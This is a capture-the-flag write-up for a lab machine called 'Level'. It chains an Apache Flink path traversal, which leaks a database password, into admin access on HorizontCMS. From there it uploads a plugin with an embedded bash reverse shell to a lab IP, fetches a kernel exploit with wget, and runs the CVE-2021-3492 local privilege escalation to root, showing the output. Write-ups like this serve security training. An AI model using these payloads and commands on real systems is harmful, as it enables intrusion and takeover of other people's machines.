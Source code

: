 # Level

```
# nmap -sCV -p- level.htb
Nmap scan report for level.htb (10.129.95.161)
Host is up (0.40s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE          VERSION
80/tcp   open  ssl/http?
8081/tcp open  blackice-icecap?
```

Apache Flink on port 8081 is vulnerable to path traversal. Metasploit has a module for it. We can read the .env file in the webroot:
```
msf6 auxiliary(scanner/http/apache_flink_jobmanager_traversal) > run

[*] Downloading /var/www/html/.env ...
[+] Downloaded /var/www/html/.env (125 bytes)
[+] File /var/www/html/.env saved in: /home/wil/.msf4/loot/20210727012858_default_10.129.173.192_apache.flink.job_666566.txt                                                                                        
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


$ cat /home/wil/.msf4/loot/20210727012858_default_10.129.173.192_apache.flink.job_666566.txt                                                              
DB_HOST=127.0.0.1
DB_CONNECTION=mysql
DB_USERNAME=hcms
DB_PASSWORD=N>2sM4^R_j>g)cfe
DB_DATABASE=hcms
HCMS_ADMIN_PREFIX=admin
```
These credentials are valid on port 80 on HorizontCMS:
`admin:N>2sM4^R_j>g)cfe`

![Successfully login as admin](img/horrizon_admin_login.png "Successfully login as admin")

With admin privileges we can add a malicous plugin, here we used a modified [GoogleMaps](https://github.com/ttimot24/GoogleMaps) plugin with a reverse shell: 

```bash
$ cat messages.php 
<?php 

$shell = exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.27/9000 0>&1'");

return [
        'successfully_added_location' => $shell,//'Location added succesfully!',
        'successfully_deleted_location' => 'Location deleted succesfully!',
        'successfully_set_center' => 'Location is successfully set as map center!'
];
```
Install the plugin in the following menus: `Themes & Apps / Plugin / Upload new plugin`
Install and activate it
Click on `Google Maps (top menu) / Add location` / Set arbitrary content in fields then save.

```bash
$ nc -nvlp 9000
Listening on [0.0.0.0] (family 2, port 9000)
Connection from 10.129.173.192 60640 received!
bash: cannot set terminal process group (1038): Inappropriate ioctl for device
bash: no job control in this shell
albert@level:/var/www/html$
albert@level:/home/albert$ cat user.txt
HTB{0utd4t3d_cms_1s_n0_g00d}
```

By shorty searching for privilege escalation paths, we can notice the operating system is vulnerable to two consecutive LPE (Local Privilege Escalation) vulnerabilities:

* A double free vulnerability in Ubuntu shiftfs driver ([CVE-2021-3492](https://www.synacktiv.com/publications/exploitation-of-a-double-free-vulnerability-in-ubuntu-shiftfs-driver-cve-2021-3492.html)), found by our team mate VDehors and submitted to [Pwn2Own Vancouver 2021](https://twitter.com/thezdi/status/1380233495851712512).
* Ubuntu OverlayFS LPE ([CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)).
```
albert@level$ uname -a
Linux level 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
      
albert@level$  cat /etc/os-release 
NAME="Ubuntu"
VERSION="20.04.1 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.1 LTS"
VERSION_ID="20.04"
[...]
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal

albert@level$ /sbin/sysctl -n 'kernel.unprivileged_userns_clone'
1
```
As the [exploit](https://github.com/synacktiv/CVE-2021-3492/tree/master/exploit) written by Vdehors for his vulnerability CVE-2021-3492 was only targetting Linux kernel versions 5.8, he slightly modified his exploit in order to also support Linux kernel versions 5.4. In the initial exploit, the synchronization between kernel and userspace was done using a new feature of userfaultfd called write-protect. This feature is not present in kernel versions 5.4 so this part of the exploit has been replaced with the legacy userfaultfd page faults. To be able to preempt the kernel for each `copy_to_user()`, the userland structure is placed on two different pages and these pages are untouched to trigger the *userfaultfd* wakeup.

Finally, we can use his exploit to solve the box:
```
albert@level:/tmp/foo$ wget "10.10.14.65:8080/exploit" 
albert@level:/tmp/foo$ mkdir symbols
albert@level:/tmp/foo/$ wget "10.10.14.65:8080/System.map-5.4.0-48-generic" -O symbols/System.map-5.4.0-48-generic
albert@level:/tmp/foo$ chmod +x exploit 
albert@level:/tmp/foo$ ./exploit 
################################################
#                EXPLOIT SETUP                 #
################################################
Kernel version 5.4.0-48-generic
0xffffffff81085460 set_memory_x
0xffffffff810aba30 proc_doulongvec_minmax
0xffffffff810cdb40 commit_creds
0xffffffff810cdec0 prepare_kernel_cred
0xffffffff819f7dc0 devinet_sysctl_forward
0xffffffff82654040 debug_table
Pinning on CPU 0
Creating new USERNS
Configuring UID/GID map for user 1000/1000
Creating new MOUNTNS
Mounting tmpfs on d1
Mounting shiftfs on d2
Creating shiftfs file
Shiftfs FD : 4
Remaped 1 page at 0x100000
Remaped 1 page at 0x101000
Allocated 2 pages at 0x100000 (ret:0x7f9a406d1740)
Allocated 2 storage pages at 0x55874bb1b000 (ret:0)
UFFD FD: 5
Registering new mapping watch = 0
Registering new mapping watch = 0
################################################
#           PRIMITIVES STABILISATION           #
################################################
Triggering the vulnerability...
UFFD poll returned
WP Fault handling 1
Recreate mapping for page 1
Backuping page data 1
Unmap page 1
Remaped 1 page at 0x101000
Registering new mapping watch = 0
Unblock page 0
[...]
Entering NET namespace...
Namespace NET fd = 6
Setns returned 0
Leaking payload address...
Table is at ffff8ac12fa1c008
Dumping global sysctl...
global_sysctl_victim[0] = 0xffffffff87b5f238
[...]
global_sysctl_victim[7] = 0x0000000000000000
Patching global sysctl...
global_sysctl_victim[0] = 0xffffffff87b5f238
[...]
global_sysctl_victim[7] = 0x0000000000000000
################################################
#                 SYSTEM REPAIR                #
################################################
Checking R/W primitives
Current header is 000000000000ffff
Restored header is ffff8ac136194000
Restoring global sysctl...
################################################
#              SHELLCODE INJECTION             #
################################################
Setting buffer to RWX
Writting shellcode at ffff8ac12fa1cf08
Writting prepare_kernel_cred at ffff8ac12fa1cef8
Writting commit_cred at ffff8ac12fa1cef0
Executing shellcode...
################################################
#                 YOU ARE ROOT                 #
################################################
root@level:/tmp/foo# id
uid=0(root) gid=0(root) groups=0(root)

root@level:/tmp/foo# cat /root/root.txt 
HTB{br0k3n_st0r4g3}
```